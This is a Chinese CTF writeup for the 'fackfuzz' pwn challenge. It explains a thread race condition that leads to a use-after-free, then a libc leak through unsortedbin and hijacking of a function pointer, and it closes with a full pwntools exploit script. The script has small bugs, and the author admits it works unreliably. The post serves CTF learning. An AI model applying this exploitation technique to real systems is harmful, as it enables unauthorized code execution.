```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
---->fack driver fuzzing<----
1. add a driver to fuzz
2. prepare fuzz data
3. start fuzzing
4. stop fuzzing
5. view driver list
6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

```
void __fastcall __noreturn freethread(void *a1)
{
  int idx; // [rsp+1Ch] [rbp-4h]@1
  idx = *(_DWORD *)a1;
  currentidx = idx;
  isstop[idx] = 1;
  free(ptr[idx]);
  puts("wait for fuzz thread done");
  sleep(3u);
  ptr[idx] = 0LL;
  if ( threadnum < 0 )
    threadnum = 0;
  free(data[idx]);
  data[idx] = 0LL;
  puts("stop this fuzz done!");
  pthread_exit(0LL);
}
```

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
__int64 stopfuzz()
{
  signed int i; // [rsp+Ch] [rbp-74h]@3
  char s2; // [rsp+10h] [rbp-70h]@1
  __int64 v3; // [rsp+78h] [rbp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  puts("input the driver name to stop fuzzing:");
  readn((__int64)&s2, 0x68uLL);
  if ( (unsigned int)checkname(&s2) )
  {
    for ( i = 0; i <= 9; ++i )
    {
      if ( ptr[i] && !strcmp(ptr[i], &s2) )
      {
        stop(i);
        return *MK_FP(__FS__, 40LL) ^ v3;
      }
    }
    puts("error name");
  }
  else
  {
    puts("invalid name");
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
from pwn import *;
from time import sleep;
port=8888
objname = "fackfuzz"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)

def readuntil(delim):
    data = io.recvuntil(delim);
    print data;
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    print data;
    return data;

def write(data):
    sleep(0.05)
    io.send(str(data));
    
def writeline(data):
    sleep(0.05)
    io.sendline(str(data));

def padding(size):
    cf = "/bin/shcat/home/ctf/flag";
    paddata = "";
    for i in range(size):
        paddatax += cf[i%len(cf)];
    return paddata;

def newdriver(name):
    writeline(1);
    writeline(name)
    readall()
def prepare(readsize,readdata):
    writeline(2);
    writeline(readsize);
    writeline(readdata);
    writeline(2);
    writeline(1);
    writeline(1);
    writeline(1);
    writeline(1);
    readall()
def startfuzz(name):
    writeline(3);
    writeline(name);
    readall();
def stopfuzz(name):
    writeline(4);
    writeline(name);
    readall();
def viewdriver():
    writeline(5);
    print readuntil(":");
    return readuntil("\n")[:-1];

def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    newdriver("/dev/haha1");
    prepare(10,"haha1")
    prepare(50,"cat flag > /dev/fd/1\x00")
    stopfuzz("/dev/haha1");
    usortbin=viewdriver();
    usortbin=usortbin+(8-len(usortbin))*'\x00';
    usortbin=u64(usortbin);
    system=usortbin-0x378178
    print hex(system);
    newdriver("/dev/haha3");0x01e36010
    stopfuzz("/dev/haha3");
    sleep(4)
    
    payload="/dev/haha4\x00"
    payload+=(0x68-len(payload))*"A";
    payload+=p64(system)*3;
    prepare(0x88,payload);
    print viewdriver()
    
    startfuzz("/dev/haha4");
    sleep(3)
    readall()#get flag

attack()
```

**此exploit理论上应该没问题，但是实际攻击的时候却不是很稳定，有时候得不到flag，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**